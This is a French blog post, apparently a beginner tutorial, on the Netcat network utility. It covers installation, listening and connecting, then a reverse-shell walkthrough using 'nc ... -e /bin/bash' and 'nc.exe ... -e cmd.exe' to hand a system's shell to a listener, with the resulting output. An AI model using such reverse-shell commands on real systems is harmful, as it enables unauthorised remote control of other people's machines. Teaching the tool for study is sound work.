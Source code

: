```yaml
---
title: Netcat, un couteau suisse réseau
author: Davistar
layout: post
permalink: "/hacking/netcat.html"
category: hacking
image: /techlovers/assets/2018-10-24/image1netcat.jpg
---
```

&nbsp;

## Qu'est-ce que Netcat ?

Netcat (souvent abrégé en nc) est un utilitaire de réseau informatique permettant de lire et d'écrire sur des connexions réseau en utilisant TCP ou UDP. 
Netcat est conçu pour être un back-end fiable pouvant être utilisé directement ou facilement piloté par d'autres programmes et scripts. Parallèlement, il s'agit d'un outil de débogage et d'investigation réseau riche en fonctionnalités, car il peut générer pratiquement tout type de connexion dont l'utilisateur pourrait avoir besoin et dispose de nombreuses fonctionnalités intégrées.

Sa liste de fonctionnalités inclut l'analyse de port, le transfert de fichiers et l'écoute de port. Il peut également être utilisé comme porte dérobée.


## Installation de Netcat :

Netcat est tres simple d'installation:

### Installation Pour Linux :

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install netcat -y
{% endhighlight %}

![installation](/techlovers/assets/2018-10-24/image2netcat.png)

### Installation Pour Windows :

Lien de téléchargement => [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

- Extraire l'archive
- Finir l'installation
- Optionnel : pour ceux qui desire juste taper nc dans le terminal, ajouter nc.exe dans l'environement de PATH Windows


## Utilisation de netcat :

### Pour afficher l'aide de netcat

{% highlight bash %}
$ sudo nc -h
{% endhighlight %}

### Pour passer netcat sous écoute :

> * -l = passe netcat en mode écoute
> * -v = pour rendre nectat plus verbeux
> * -p = pour specifier le port à écouter

{% highlight bash %}
$ sudo nc -lvp 444
listening on [any] 444 ...
{% endhighlight %}

![listen](/techlovers/assets/2018-10-24/image3netcat.png)


### Comment se connecter a une ip via netcat :

{% highlight bash %}
$ sudo nc <IP> <PORT>
{% endhighlight %}


### Comment prendre le contrôle d'un processus avec Netcat :

L'outil netcat permet d'effectuer des tâches pour le moins dangereuses même s'il ne represente aucun danger en lui même.

Nous allons voir comment prendre le contrôle du shell d'un système :

Tout d'abord, nous devons ecouter un port. Moi, je vais choisir le port 333.

Nous allons maintenant taper la commande pour ecouter notre port 333.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
{% endhighlight %}

On est maintenant sur écoute prêt à recevoir une connexion

Nous allons maintenant taper cette commande-ci pour se connecter à notre port avec un processus.

{% highlight bash %}
$ sudo nc 192.168.1.70 333 -e "/bin/bash"
{% endhighlight %}

Pour prendre le shell de windows, faites ceci:

{% highlight bash %}
C:\Users\Davistar\Desktop > nc.exe 192.168.1.70 333 -e cmd.exe
{% endhighlight %}

Une fois cette commande entrée, vous devez recevoir cela sur le terminal sous écoute.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
192.168.1.70: inverse host lookup failed: Unknown host
connect to [192.168.1.70] from (UNKNOWN) [192.168.1.70] 51414
{% endhighlight %}

Cela signifie que le client est bien connecté à votre machine, maintenant on peut exécuter toutes les commandes du shell.

Exemple :

{% highlight bash %}
ps  
  PID TTY          TIME CMD
 7604 pts/1    00:00:00 sudo
 7605 pts/1    00:00:00 bash
 7606 pts/1    00:00:00 ps
{% endhighlight %}

{% highlight bash %}
$ ls

aquatone
Desktop
Documents
Images
Musique
Public
Téléchargements
Templates
video.ogv
Vidéos
wordlist
{% endhighlight %}

{% highlight bash %}
help
GNU bash, version 4.4.23(1)-release (x86_64-pc-linux-gnu)
Ces commandes de shell sont définies de manière interne. Saisissez « help » pour voir cette liste.
Tapez « help nom » pour en savoir plus sur la fonction qui s'appelle « nom ».
Utilisez « info bash » pour en savoir plus sur le shell en général.
Utilisez « man -k » ou « info » pour en savoir plus sur les commandes qui
ne font pas partie de cette liste.

Une astérisque (*) à côté d'un nom signifie que la commande est désactivée.

 job_spec [&]                            history [-c] [-d décalage] [n] ou hi>
 (( expression ))                        if COMMANDES; then COMMANDES; [ elif>
 . nom_fichier [arguments]               jobs [-lnprs] [jobspec ...] ou jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] nom[=valeur] ...
 alias [-p] [nom[=valeur] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d délim] [-n nombre] [-O o>
 bind [-lpvsPSVX] [-m keymap] [-f nomf>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | rép]
 caller [expr]                           pwd [-LP]
 case MOT in [MOTIF [| MOTIF]...) COMM>  read [-ers] [-a tableau] [-d delim] >
 cd [-L|[-P [-e]] [-@]] [rép]            readarray [-n nombre] [-O origine] [>
 command [-pVv] commande [arg ...]       readonly [-aAf] [nom[=valeur] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NOM [in MOTS ... ;] do COMMAN>
 compopt [-o|+o option] [-DE] [nom ...>  set [-abefhkmnptuvxBCHP] [-o nom-opt>
 continue [n]                            shift [n]
 coproc [NOM] commande [redirections]    shopt [-pqsu] [-o] [nom_opt ...]
 declare [-aAfFgilnrtux] [-p] [nom[=va>  source nom_fichier [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f nomfichier] [>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a nom] [commande [argume>  true
 exit [n]                                type [-afptP] nom [nom ...]
 export [-fn] [nom[=valeur] ...] ou ex>  typeset [-aAfFgilnrtux] [-p] nom[=va>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [premier] [derni>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] nom [nom ...]
 for NOM [in MOTS ... ] ; do COMMANDES>  unset [-f] [-v] [-n] [nom ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDES; do COMMANDES; done
 function nom { COMMANDES ; } ou nom (>  variables - Noms et significations d>
 getopts chaineopts nom [arg]            wait [-n] [id ...]
 hash [-lr] [-p nomchemin] [-dt] [nom >  while COMMANDES; do COMMANDES; done
 help [-dms] [motif ...]                 { COMMANDES ; }

{% endhighlight %}

Voilà nous avons l'intégralité du shell.

![screen2](/techlovers/assets/2018-10-24/image4netcat.png)